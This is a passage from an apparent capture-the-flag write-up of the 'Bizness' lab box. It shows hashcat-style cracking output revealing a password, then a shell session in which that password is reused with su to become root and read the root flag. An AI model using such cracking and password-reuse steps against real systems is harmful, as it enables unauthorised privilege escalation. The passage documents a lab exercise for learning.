 ```shell
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: moon7686 -> monkey-balls

Started: Thu May 30 07:54:06 2024
Stopped: Thu May 30 07:54:36 2024
```

We try it against root to see if the admin password been reused. And we get root and the root flag.

```shell
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
ofbiz@bizness:/opt/ofbiz$ su - root
su - root
Password:

id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
[...OMITTED...]
```
